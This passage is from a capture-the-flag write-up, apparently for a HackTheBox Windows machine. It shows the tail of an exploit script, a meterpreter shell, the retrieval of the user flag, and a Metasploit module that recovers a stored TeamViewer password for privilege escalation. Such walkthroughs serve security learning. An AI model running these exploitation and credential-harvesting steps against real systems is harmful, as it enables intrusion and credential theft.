 
    r4 = s.post(url_xslt,data=data,headers=headers);

    print("End");

That allow us to get a meterpreter on the box.

    :::text
    meterpreter > getuid
    Server username: IIS APPPOOL\DefaultAppPool

We can then use the meterpeter search function to found the user flag.

    :::text
    meterpreter > search -f user.txt
    Found 1 result...
        c:\Users\Public\user.txt (34 bytes)
    meterpreter > cat "c:\Users\Public\user.txt"
    fd2b1f187e6f48be38c224cdcb61faf5

# Getting Root

## TeamViewer way

We run simple `ps` on the system to list the process.
We easily spot the TeamViewer process.

    :::text
    meterpreter > ps
    <SNIP>
    2852  628   svchost.exe
    2860  628   svchost.exe
    2884  628   svchost.exe
    2936  628   svchost.exe
    2944  628   TeamViewer_Service.exe

A few Google search lead us to a metasploit post module to retrieve TeamViewer passwords

    :::text
    meterpreter > run post/windows/gather/credentials/teamviewer_passwords

    [*] Finding TeamViewer Passwords on REMOTE
    [+] Found Unattended Password: !R3m0te!

I struggle a lot there trying to connect to the TeamViewer session.
First I looted the TeamViewer ID in
`C:\Program Files (x86)\TeamViewer\Version7\TeamViewer7_Logfile.log` first lines.

As the box is not connected to the Internet it is not possible to connect using
the TeamViewer ID.  Therefore I tried to connect localy
[using directly the IP address](https://community.teamviewer.com/t5/Knowledge-Base/Can-TeamViewer-be-used-within-a-local-network-LAN-only/ta-p/4618)
but this also doesn't work.

![TeamViewer](/media/2020.11/remote_03.png)
